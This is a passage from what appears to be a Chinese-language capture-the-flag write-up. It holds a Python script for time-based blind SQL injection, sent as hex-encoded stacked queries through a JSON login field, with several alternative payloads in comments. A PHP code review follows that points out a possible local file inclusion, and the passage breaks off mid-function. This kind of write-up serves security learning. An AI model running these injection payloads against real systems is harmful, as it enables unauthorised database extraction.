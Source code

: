 ```python
pt= string.printable

def booltest(start,end):
    ret=""
    for i in range(start,end):
        l=1
        r=255
        while(l+1<r):
            mid=(l+r)/2
            #payload="0^((ascii(substr(({0}),{1},1)))>{2})^0#".format(sql,i,mid)
            #payload="select if((ascii(substr(({0}),{1},1)))>{2},sleep(3),1)".format(sql,i,mid)
            payload="select if(ascii(substr(({0}),{1},1))>{2},sleep(2),1)".format(sql,i,mid)
            #payload="union select * from images where id=if((ascii(substr(({0}),{1},1)))>{2},1,0)#".format(sql,i,mid)
            #print payload
            content = {
                'username':"asd';set @a=0x{0};prepare t from @a;execute t-- ".format(str2hex(payload)),
                'password':'test123'
            }
            data = json.dumps(content)
            #print data
            times=time.time()
            req=requests.post(url,data=data)
            if(req.status_code!=requests.codes.ok):
                continue
            #print req.text
            if (time.time()-times>=2):
                l=mid
            else :
                r=mid
        if(chr(r) not in pt):
            return 
        ret=ret+chr(r)
        print("working:"+ret) 
    print("Final:"+ret)

booltest(1,30)
```

然后拿到源代码``glzjin_wants_a_girl_friend.zip``

根目录下有flag.php

然后又到了代码审计环节

采取的MVC架构

先看看View

```php
//UserIndex.php
if(!isset($img_file)) {//如果这里的$img_file可控就可以搞LFI了
    $img_file = '/../favicon.ico';
}
$img_dir = dirname(__FILE__) . $img_file;
$img_base64 = imgToBase64($img_dir);
echo '<img src="' . $img_base64 . '">';      
function imgToBase64($img_file) {

    $img_base64 = '';
    if (file_exists($img_file)) {
        $app_img_file = $img_file; // 图片路径
        $img_info = getimagesize($app_img_file); // 取得图片的大小，类型等

        $fp = fopen($app_img_file, "r"); // 图片是否可读权限
```